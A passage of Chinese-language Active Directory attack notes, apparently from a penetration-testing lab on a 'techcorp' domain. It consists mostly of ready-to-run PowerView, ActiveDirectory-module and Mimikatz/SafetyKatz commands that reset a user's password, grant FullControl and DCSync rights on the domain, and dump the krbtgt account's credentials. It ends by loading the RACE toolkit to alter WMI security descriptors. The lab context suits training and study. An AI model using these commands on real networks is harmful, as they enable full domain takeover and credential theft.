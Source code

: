 2. 利用 ResetPassword

使用powerview
```
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

使用ActiveDirectory Module
```
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

3. 添加FullControl权限
使用powerview
```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser1 -Rights All -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

使用ActiveDirectory Module
```
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=us,DC=techcorp,DC=local' -Right GenericAll -Verbose
```

4. 添加DCSync权限

使用powerview
```
Add-DomainObjectAcl -TargetIdentity "dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser1 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

使用ActiveDirectory Module and RACE
```
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=us,DC=techcorp,DC=local' -GUIDRight DCSync -Verbose
```

执行DCSync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```
or
```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

#  Security Descriptors

## WMI

使用 RACE 工具包,为非管理员用户修改ACL以获得访问安全对象
```
. C:\AD\Tools\RACE-master\RACE.ps1
```
